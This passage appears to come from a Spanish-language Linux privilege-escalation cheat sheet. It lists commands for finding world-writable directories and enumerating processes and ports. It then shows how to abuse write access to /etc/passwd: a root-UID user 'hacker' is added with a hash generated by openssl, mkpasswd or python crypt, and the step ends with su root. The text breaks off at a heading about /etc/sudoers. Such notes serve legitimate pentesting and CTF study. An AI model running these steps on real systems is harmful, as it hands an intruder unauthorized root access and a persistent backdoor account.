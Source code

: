 ```bash

# World executable folder
find / -perm -o x -type d 2>/dev/null

# World writable and executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
```

## ENUMERAR PUERTOS INTERNOS, SERVICIOS, PROCESOS

```bash
ps

ps -faux

ps -waux #BSD os

netstat -putan

netstat -ano

netstat -an
```

## ABUSO DE PERMISO EN FICHEROS SENSIBLES

### abuso de permisos de escritura en /etc/passwd

Como podemos escribir en esearchivo podemos agregar la siguiente linea:

```bash
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

Donde GENERATED_PASSWORD_HERE se genera a traves de alguna de estas formas:

```bash
openssl passwd

openssl passwd -1 -salt hacker hacker

mkpasswd -m SHA-512 hacker

python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

Despues:

```bash
su root
```

y colocamos la clave creada.

### abuso de permisos de escritura en /etc/sudoers
